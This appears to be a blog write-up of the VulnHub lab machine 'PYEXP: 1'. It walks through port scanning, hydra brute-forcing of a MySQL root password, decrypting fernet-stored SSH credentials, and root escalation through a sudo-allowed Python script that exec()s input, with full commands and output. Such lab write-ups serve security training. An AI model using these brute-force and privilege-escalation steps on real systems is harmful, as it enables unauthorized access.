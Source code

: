 ```yaml
---
title: PYEXP: 1
author:
  name: am-a-circle
date: 2021-04-18 12:00:00 
categories: [vulnhub]
tags: [SUDO,medium]
math: false
mermaid: false
---
```


## Overview

"PYEXP: 1" is an interesting box as it teaches the concept of  brute-forcing,database enumeration and exploiting dangerous python function.

|Box Difficulty| Link|
|--|--|
| Medium| [Vulnhub Link](https://www.vulnhub.com/entry/pyexp-1,534/) |

## Recon

As usual, the standard masscan follow by nmap.
```bash
# masscan -p1-65535  192.168.205.118  --rate=1000 -e tun0
Discovered open port 3306/tcp on 192.168.205.118
Discovered open port 1337/tcp on 192.168.205.118                 
```


```bash
└─# nmap -sV -sC -p 1337,3306 -oN /opt/OSCP_PlayG/PyExp/nmap_full.txt 192.168.205.118

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 11:25 EDT                                                                                                           
Nmap scan report for 192.168.205.118
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsTransactions, InteractiveClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsCompression, LongColumnFlag, Speaks41ProtocolOld, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: d5z)[o=~(GllWRri9}.i
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.69 seconds

```

From the output we can see that there is a SSH server on port 1337 and a MySQL service at port 3306. 
Honestly, there isn't much to work on so the only option I could think of was to brute-force MySQL for password.

## MYSQL - TCP 3306

Brute-forcing root password: 
```bash
└─# hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.205.118 mysql 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-17 11:45:00
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.205.118:3306/
[STATUS] 171.00 tries/min, 171 tries in 00:01h, 14344228 to do in 1398:05h, 4 active
...
...
[STATUS] 174.00 tries/min, 8178 tries in 00:47h, 14336221 to do in 1373:13h, 4 active
[3306][mysql] host: 192.168.205.118   login: root   password: prettywoman
1 of 1 target successfully completed, 1 valid password found
```

That took awhile but the result is that we obtain the root password for mysql. Let's enumerate the database for any credentials we can use to access the SSH server!



## Shell as Lucy

Enumerating the database:


```bash
└─# mysql --host 192.168.205.118 -u root -p                                                                                                                                                
Enter password:                                                                                                                                                                                    
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                                                                                                        
Your MariaDB connection id is 22205                                                                                                                                                                
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10                                                                                                                                                
                                                                                                                                  
MariaDB [(none)]> show databases;                                                                                                                                                                  
+--------------------+                                                                                                                                                                             
| Database           |                                                                                                                                                                             
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.253 sec)

MariaDB [(none)]> use data;

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.270 sec)

MariaDB [data]> select * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.282 sec)



```

After enumerating the database server there isn't much but the above.

As we can see from the above, there is a fernet table with the column name "cred" and "keyy" from the table name fernet.

A quick google about fernet leads me to **"fernet encryption"**
*:Fernet is a symmetric encryption method which makes sure that the message encrypted cannot be manipulated/read without the key.*

When inputting the Token and Key into the site here, [Fernet decryption!](https://asecuritysite.com/encryption/ferdecode)

We get the credentials below:
Decoded: lucy:wJ9`"Lemdv9[FEw-

Great ! Now we have a possible username and password! Let's try to SSH into the server
```bash
└─# ssh lucy@192.168.205.118 -p 1337                                                                                                                                                         
lucy@192.168.205.118's password: 
Linux pyexp 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lucy@pyexp:~$ whoami
lucy
```

With that we are now in the system running as lucy!

## Shell as Root

One of the first things i like to do is run beside running `linpeas.sh` is to run `sudo -l` to see if the current user is able to run any privilege commands which can be abused.
```bash
lucy@pyexp:/tmp$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

Interestingly , we can run `/usr/bin/python2 /opt/exp.py` as root. A further look into the file reveals the below
```bash
lucy@pyexp:/tmp$ cat /opt/exp.py
uinput = raw_input('how are you?')
exec(uinput)

```
From the `exp.py` file above we can see that it takes a user input. But what is dangerous here is that the script uses the vulnerable `exec` function. 


Why is `exec` dangerous ? 
It is because it take strings and turn them into executable code!  A user could build a string so that it runs other Python functions to potentially erase all your data, expose your secret keys, dump your database, or perform other malicious actions. Since we can execute the file as a root user, the command executed will be as root. 


Thus a simple way to become root would be to use the python function to spawn a bash shell!

```bash
lucy@pyexp:/tmp$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import pty; pty.spawn("/bin/bash")
root@pyexp:/tmp# whoami
root
root@pyexp:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```

And we are root!

